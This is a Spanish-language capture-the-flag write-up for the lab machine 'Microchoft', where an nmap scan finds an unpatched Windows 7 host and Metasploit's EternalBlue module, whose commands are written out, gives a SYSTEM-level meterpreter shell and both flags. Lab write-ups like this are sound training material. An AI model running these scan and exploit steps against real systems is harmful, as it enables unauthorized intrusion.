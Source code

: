 # CTF - The Hackers Lab - Microchoft

## 📑 Información General

- **Nombre:** Microchoft
- **Dificultad:** Muy Fácil
- **SO:** #Windows
- **Vulnerabilidad principal:** EternalBlue
- **Fecha resolución:** 05/06/2025
- **MD5:** d3c63284f99639d8a19467f39ee7c57f
- **Enlace:** [The Hackers Lab - Microchoft](https://thehackerslabs.com/microchoft/)

>[!tip] Objetivo
>Obtener las flags: 
> - 🚩 user.txt 
> - 🚩 root.txt

## 🔎 Reconocimiento

### Escaneo Inicial
IP máquina víctima: **192.168.10.20**

Comprobamos la conectividad enviando un paquete `icmp` a dicha máquina. Además, en función del TTL sabremos distinguir el SO instalado en la misma. Dado que su TTL es 128, estamos frente a una máquina **Windows**.

![[microchoft (1).png]]

### Escaneo de Puertos

```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.10.20
```

![[microchoft (2).png]]

### Enumeración de Servicios

| Puerto | Servicio     | Versión                        |        Notas         |
| ------ | ------------ | ------------------------------ |:--------------------:|
| 135    | msrpc        | Microsoft Windows RPC          |          -           |
| 139    | netbios-ssn  | Microsoft Windows netbios-ssn  |          -           |
| 445    | microsoft-ds | Windows 7 Home Basics 7601 SP1 | Workgroup: WORKGROUP |
| 41955  | msrpc        | Microsoft Windows RPC          |          -           |

## 🌐 Exploración

Analizando el resultado devuelto con `nmap`, detectamos que el sistema operativo es **Windows 7 Home Basic SP1 (Service Pack 1)** . Este sistema, con el puerto 445 abierto, es vulnerable al clásico exploit **EternalBlue**.

## ⚔️ Explotación

Abrimos **Metasploit** y buscamos por el término "eternalblue". Nos devolverá varios resultados, pero a nosotros nos interesa el primero, así que lo seleccionamos y lo configuramos con los siguientes comandos:

```bash
search eternalblue
use 0
show options
set RHOSTS 192.168.10.20
run
```

La explotación ha sido un éxito. Hemos conseguido abrir una sesión de **meterpreter** con el usuario "NT Authority".

![[microchoft (3).png]]

Abrimos una shell escribiendo `shell` y comprobamos qué usuarios hay registrados en la máquina víctima.

![[microchoft (4).png]]

## 🔐Escalada de Privilegios

Nos desplazamos a la ruta `C:\Users` y listamos su contenido. Vemos que efectivamente tenemos las carpetas de los usuarios **Admin** y **Lola**, así que indagamos un poco en ellas y encontramos que en el escritorio guardan un fichero con su **flag**.

![[microchoft (5).png]]


![[microchoft (6).png]]

🚩 **Flag de root encontrada.**

![[microchoft (7).png]]

🚩 **Flag de user encontrada.**